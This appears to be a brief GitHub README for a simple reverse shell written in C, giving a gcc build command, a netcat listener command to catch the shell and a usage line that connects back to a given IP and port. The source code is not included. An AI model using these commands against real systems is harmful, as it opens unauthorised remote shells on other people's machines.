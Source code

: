 # Simple Reverse Shell
A run of the mill reverse shell written in C.

## Building
```
gcc -o reverse-shell reverse-shell.c
```

## Using
**Bind a port on one machine to catch the shell:**
```
nc -l -p 1337
```

**And on the other machine simply run:**
```
./reverse-shell <ip> 1337
```
